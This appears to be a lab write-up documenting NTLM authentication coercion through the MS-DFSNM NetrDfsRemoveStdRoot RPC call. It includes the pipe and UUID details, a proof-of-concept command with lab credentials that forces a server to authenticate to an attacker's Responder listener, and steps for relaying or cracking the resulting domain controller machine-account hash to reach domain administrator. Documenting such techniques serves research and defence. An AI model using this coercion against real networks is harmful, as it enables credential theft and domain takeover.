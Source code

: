 # MS-DFSNM - Remote call to NetrDfsRemoveStdRoot (opnum 13)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **Function name**: [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the endpoint (uuid `4fc742e0-4a10-11cf-8273-00aa004ae673`, version `3.0`) in order to perform calls to RPC functions of the `MS-DFSNM` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named \PIPE\netdfs. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. It will then call the remote [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveStdRoot('192.168.2.51\x00', 'share\x00', 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in] DWORD ApiFlags
);
```

 - **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the DFS root target to be removed.


 - **RootShare**: The pointer to a null-terminated Unicode DFS root target share name string. This is also the DFS namespace name. The share is not removed automatically when the method is successful; it MUST be removed explicitly, as needed.


 - **ApiFlags**: This parameter is reserved for future use and is ignored by the server.

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979


 - Documentation of function `NetrDfsRemoveStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18


 - This call was pointed out by [@filip_dragovic](https://twitter.com/filip_dragovic/) on Jul 18, 2021: https://twitter.com/filip_dragovic/status/1538154721655103488